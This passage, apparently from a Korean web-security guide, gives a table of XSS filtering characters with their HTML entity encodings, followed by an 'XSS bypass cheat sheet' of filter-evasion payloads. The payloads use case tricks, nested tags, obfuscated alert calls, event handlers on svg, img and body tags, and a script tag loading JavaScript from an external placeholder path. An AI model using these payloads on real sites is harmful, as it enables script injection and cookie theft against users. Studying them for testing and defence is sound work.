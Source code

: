 
### **3-1. XSS Filterling List**

> **필터링 특수문자 목록**

| **From** | **To [숫자표현]** | **To [문자표현]** |
| --- | --- | --- |
| <  | &#60; | &lt; |
| >  | &#62; | &gt; |
| ( | &#40; | &lpar; |
| ) | &#41; | &rpar; |
| # | &#35; | &num; |
| & | &#38; | &amp; |
| ‘ | &#39; | &apos; |
| “ | &#34; | &quot; |
| ; | &#59; | &semi; |
| { | &#123; | &lbrace; |
| } | &#125; | &rbrace; |



XSS 취약점을 방어하기 위해서는 브라우저에서 HTML 태그나 자바스크립트 코드에 의해 악의적인 구문이 실행되지 못하도록 해야 합니다. 따라서, HTML, javascript 코드의 시작과 종료를 알리는 특수문자들을 필터링하여 XSS 공격을 원천적으로 차단할 수 있습니다. 또한, 서비스 구조에 따라서 다양한 태그·스크립트·이벤트핸들러 등을 추가적으로 필터링 하여 공격을 방어할 수 있습니다.  

---

## **4. Bypass XSS Cheat Sheet**

| **분류** | **우회 코드** |
| --- | --- |
| \<script\> 태그 필터링 되는 경우 | `<ScripT>alert('XSS')</Script>` |
| \<script\> 태그 필터링 되는 경우 | `<scrscriptipt>alert('XSS’)</scrscriptipt>` |
| **document.cookie 필터링 되는 경우** | `document['cookie'], document["cookie"]` |
| **특정 단어 필터링 되는 경우** | `'><script src=http://외부JS파일경로></script>` |
| **특정 단어 필터링 되는 경우** | `<script>alert(String.fromCharCode(88, 83, 83)</script>` |
| **특정 단어 필터링 되는 경우** | `">\<script>a&#x6c;ert(1)\</script>`|
| **이벤트 핸들러 필터링 되는 경우** | `<img src='x' onmouseover='alert("XSS")'>` |
| **이벤트 핸들러 필터링 되는 경우** | `<img src='x' onerror=alert("XSS")>` |
| **특정 태그가 필터링 되는 경우** | `<svg onload=prompt('XSS')` |
| **특정 태그가 필터링 되는 경우** | `<svg/onload=confirm(100)>` |
| **특정 태그가 필터링 되는 경우** | `<svg id=alert(100) onload=eval(id)>` |
| **특정 태그가 필터링 되는 경우** | `<body onload=alert('XSS')>` |
| **특정 태그가 필터링 되는 경우** | `<body style=overflow:auto;height:1000px onscroll=alert('XSS') id=x>#x` |
| **특정 태그가 필터링 되는 경우** | `<marquee/onstart=alert()>` |
| **특정 태그가 필터링 되는 경우** | `<form><button formaction="javascript:alert('XSS')">` |
| **특정 태그가 필터링 되는 경우** | `<brute onclick=alert('XSS')>` |
